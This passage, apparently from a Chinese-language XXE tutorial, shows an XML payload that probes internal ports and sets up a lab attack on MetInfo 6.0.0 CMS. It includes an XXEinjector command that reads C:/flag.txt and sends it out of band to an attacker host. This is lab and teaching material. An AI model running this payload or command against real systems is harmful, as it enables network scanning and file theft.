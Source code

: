 可以很明显的发现 22 端口和 111 端口的响应时间远小于其他端口，根据此特征便可以判断 22、110 端口是开启的，不过也可以用Burp对端口进行爆破，Payload如下：

```
<?xml version="1.0" encoding="utf-8"?>  
<!DOCTYPE data SYSTEM "http://192.168.38.129:22/" [  
<!ELEMENT data (#PCDATA)>  
]>
<data>7</data>
```

只需要把上面的Payload以端口进行遍历即可，但我没有找到Burp爆破结果以响应时间排序的方法，所以我还是选择用Python。

# 0x02 XXE实例（MetInfo6.0.0 CMS）

## 0、复现环境

a、目标靶机

IP：192.168.38.132

环境：Win7 + phpstudy + apache + php

b、本地主机

IP：192.168.5.9、192.168.38.129

环境：Win10 +  Kali + phpstudy + apache + BurpSuite + Python3 + Ruby

>注意：为了便于理解，笔者在部分地方添加了注释，如果读者想要复现文中内容，记得删除注释再使用，避免复现失败。

## 1、本地搭建 

靶场下载地址：

```
https://www.metinfo.cn/upload/file/MetInfo6.0.0.zip
```

下载解压，取消文件夹只读权限，把解压文件放到WWW目录下。
接下来访问靶机的IP地址，跟着CMS的提示一步一步走，很容易就能搭建成功，如果是Linux环境，建议使用宝塔安装，比较方便。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/xxe5.png)

## 2、XXE测试

直接上工具 XXEinjector，工具地址：

```
https://github.com/enjoiz/XXEinjector
```

这里的工具使用命令：

```
./XXEinjector.rb --host=192.168.38.129 --file=metlnfo_req.txt --path=C:/flag.txt --verbose --httpport=999 --oob=http --phpfilter
```
